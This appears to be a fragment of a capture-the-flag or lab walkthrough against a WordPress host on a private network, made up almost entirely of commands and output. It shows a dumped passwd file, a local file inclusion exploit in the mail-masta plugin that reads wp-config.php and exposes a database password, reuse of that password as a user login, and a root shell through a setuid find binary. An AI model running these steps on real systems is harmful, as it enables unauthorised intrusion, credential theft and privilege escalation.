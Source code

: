systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
jphdurand:x:1000:1000:jphdurand,,,:/home/jphdurand:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
cdrdurand:x:1001:1001::/home/cdrdurand:/bin/bash
chrdurand:x:1002:1002::/home/chrdurand:/bin/bash
jchdurand:x:1003:1003::/home/jchdurand:/bin/bash
jcldurand:x:1004:1004::/home/jcldurand:/bin/bash
jjqdurand:x:1005:1005::/home/jjqdurand:/bin/bash
jmcdurand:x:1006:1006::/home/jmcdurand:/bin/bash
jmkdurand:x:1007:1007::/home/jmkdurand:/bin/bash
jpldurand:x:1008:1008::/home/jpldurand:/bin/bash
mcldurand:x:1009:1009::/home/mcldurand:/bin/bash
mcndurand:x:1010:1010::/home/mcndurand:/bin/bash
ftp:x:107:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin



└─$ curl http://192.168.110.54/wp/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wp/wp-config.php | base64 -d
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
define( 'DB_USER', 'wpuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'LXku0N5OI@&(jdGdo1' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );



[!] Valid Combinations Found:
 | Username: jphdurand, Password: LXku0N5OI@&(jdGdo1



 http://192.168.110.54/wp/wp-content/themes/twentytwelve/404.php



$ ls -al /home/*
/home/jmkdurand:
total 336
drwxr-xr-x  3 jmkdurand jmkdurand   4096 Nov 20  2020 .
drwxr-xr-x 13 root      root        4096 Nov 22  2020 ..
-rw-r--r--  1 jmkdurand jmkdurand    220 Nov 22  2020 .bash_logout
-rw-r--r--  1 jmkdurand jmkdurand   3526 Nov 22  2020 .bashrc
-rw-r--r--  1 jmkdurand jmkdurand    807 Nov 22  2020 .profile
drwx------  2 jmkdurand jmkdurand   4096 Nov 22  2020 .ssh
-rwsr-sr-x  1 jmkdurand jmkdurand 315904 Nov 22  2020 find


 $ ./find . -exec /bin/sh -p \; -quit
